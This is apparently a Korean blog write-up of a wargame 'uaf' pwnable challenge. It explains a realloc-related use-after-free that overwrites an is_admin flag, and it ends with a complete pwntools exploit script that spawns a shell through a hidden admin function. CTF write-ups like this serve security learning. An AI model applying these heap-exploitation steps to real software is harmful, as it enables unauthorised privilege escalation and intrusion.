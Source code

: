 ```yaml
---
title: uaf
date: 2024-07-16 00:00:00 +0900
categories: [Pwnable, Wargame]
tags: [pwnable, wargame, uaf]
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structures

``` c
struct credential {
    char is_admin;      // alignment 때문에 어차피 8바이트를 차지
    struct shelf *shelf_ptr;
    char *username;
    char *password;
    struct credential *next_cred;
}

struct shelf {
    long count;
    struct item *item_ptr;
}

struct item {
    long number;
    long price;
    char *name;
    char *description;
}
```

### Goal

``` c
unsigned __int64 hidden_1C83()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( LOBYTE(login_info_4108->is_admin) )
    system("/bin/sh");
  else
    puts("Not an admin");
  return v1 - __readfsqword(0x28u);
}
```

로그인 이후의 메뉴에서 7번을 선택하면 호출되는 숨겨진 `hidden_1C83()`이 존재한다.

여기에서 `login_info`의 첫 바이트, 즉 `is_admin`의 값이 0이 아니면 쉘을 띄워준다.

## 0x01. Vulnerability

``` c
unsigned __int64 add_item_1357()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count + 1));
      if ( tmp )
      {
        ++shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
        memcpy(&shelf_ptr->item_ptr[shelf_ptr->count - 1], &selected, sizeof(shelf_ptr->item_ptr[shelf_ptr->count - 1]));
      }
  ...
}

unsigned __int64 remove_item_14B6()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count - 1));
      if ( tmp )
      {
        --shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
      }
      else
      {
        puts("Error removing item");
      }
  ...
}
```

`add_item_1357()`에서 item을 추가하면 `item_ptr`에 힙 영역이 할당된다.

이것을 `remove_item_14B6()`에서 item을 삭제할 때 청크 사이즈만 줄여서 재할당하는데 사이즈가 0이 됐을 때 `realloc()`에서 `NULL`이 리턴된다.

그런데 `item_ptr`의 값이 초기화되지 않고 그대로 남아있고, 삭제 이후 다시 `add_item_1357()`을 호출할 때 해제된 영역에 접근이 가능하기 때문에 UAF 취약점이 존재한다.

## 0x02. Exploit

``` c
unsigned __int64 open_account_1932()
{
  ...
      tmp = malloc(0x28uLL);
      LOBYTE(tmp->is_admin) = 0;
  ...
}
```

`open_account_1932()`를 보면 계정을 생성하고 바로 `is_admin`을 0으로 만든다.

따라서 A 계정을 만들고 item을 추가 후 삭제하여 해제된 영역을 B 계정의 `credential` 구조체가 가리키도록 exploit을 구성했다.

-   open_account A
-   add_item 1
-   remove_item 0
-   logout
-   open_account B

이러한 순서로 페이로드를 작성해서, A의 `item_ptr`과 B의 `credential`이 같은 영역에 위치하게 만들 수 있고,

-   login as A
-   add_item 2

다시 A로 로그인한 후에 item을 추가해서 `item.number`를 복사하는 과정에서 `is_admin`이 덮이는 시나리오를 생각했으나...

``` bash
# Credential of B - BEFORE
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555500      0x00005555555593a0
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000

# Credential of B - AFTER
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555559      0x4ec540a62b019163
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000
```

쉘이 떨어져서 실제 값이 잘 덮였는지 확인해보니 `item.number`가 아닌 엉뚱한 값으로 덮여있었다.

그래서 다시 면밀하게 디버깅을 해본 결과 `memcpy` 부분이 아니라 `realloc` 부분에서 값이 변경되는 것을 확인했다.

곰곰이 생각해보니 다음과 같은 문제가 있었다.

1.  `remove_item_14B6()`에서 `realloc()`이 `NULL`을 리턴해서 `item_ptr` 초기화는 물론 `count` 값도 작아지지 않음
2.  다시 `add_item_1357()`를 하는 과정에서 `count` 값이 아직 1이므로 0x40만큼 `realloc()`을 요청함
3.  사이즈도 맞지 않거니와 B의 `credential`이 있는 영역은 다시 `free`된 적도 없기 때문에 아예 다른 영역이 할당됨

결과적으로는 `realloc` 과정에서 뭔가 dummy 데이터가 쓰여지면서 `is_admin`이 덮이게 되어 다행히 exploit이 성공한다.

솔직히 이게 intended solution인지 잘 모르겠다... ㅋㅋㅋㅋ

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

BINARY = "uaf"
LIBRARY = "libc.so.6"

code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x1DC7,
    'open_account' : code_base + 0x1932,
    'hidden' : code_base + 0x1C83,
}

gs = f'''
b *{bp['open_account']}
b *{bp['hidden']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def menu(s, inputs: list) :
    for i in range(len(inputs)):
        r = s.recvuntil(b': ').decode()
        if i == 0:
            print(r.split('\n')[int(inputs[i]) - 1])
        s.sendline(inputs[i].encode())
    return

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    menu(s, ['2', 'aaaa', '1111'])  # open_account of A
    menu(s, ['2', '1'])             # add_item 1
    menu(s, ['3', '0'])             # remove_item 0
    menu(s, ['5'])                  # logout
    menu(s, ['2', 'bbbb', '2222'])  # open_account of B
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'aaaa', '1111'])  # login as A
    menu(s, ['2', '2'])             # add_item 2
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'bbbb', '2222'])  # login as B
    menu(s, ['7'])                  # hidden
    s.interactive()

if __name__=='__main__':
    main()
```